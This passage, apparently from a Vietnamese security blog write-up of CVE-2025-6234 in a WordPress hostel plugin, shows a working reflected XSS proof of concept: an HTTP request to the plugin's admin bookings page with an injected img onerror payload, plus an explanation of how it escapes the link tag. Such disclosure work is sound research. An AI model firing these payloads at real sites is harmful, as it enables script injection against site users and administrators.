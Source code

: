 ![search path](assets/img/posts/2025-08-28-CVE-2025-6234/search_path.png)

👉 `WPHOSTEL_PATH` bây giờ là đường dẫn tuyệt đối tới thư mục chứa file hiện tại.

## Exploit
**Request với XSS payload**

```http
GET /wp-admin/admin.php?page=wphostel_bookings&type=upcoming&offset=1&ob="><img+src%3D1+onerror%3Dalert%28document.domain%29> HTTP/1.1
```

**Payload thực tế**:

```html
"><img src=x onerror=alert(document.domain)>
```

- Đóng thẻ `<a>` bằng ký tự `">`.
- Chèn thêm thẻ `<img>` có thuộc tính `onerror` để **kích hoạt JavaScript**.
- Dùng `alert(document.domain)` thay cho `alert(1)` như một thói quen, nhằm chứng minh rõ ràng khả năng đọc thông tin từ DOM. Điều này cũng giúp tránh trường hợp [Sandbox Domain](https://bughunters.google.com/learn/invalid-reports/web-platform/xss/6619189462433792/xss-in-sandbox-domains) khiến cho tác động của `payload` bị xem nhẹ hoặc không có.

**Kết quả**:

![xss success](assets/img/posts/2025-08-28-CVE-2025-6234/xss_success.png)
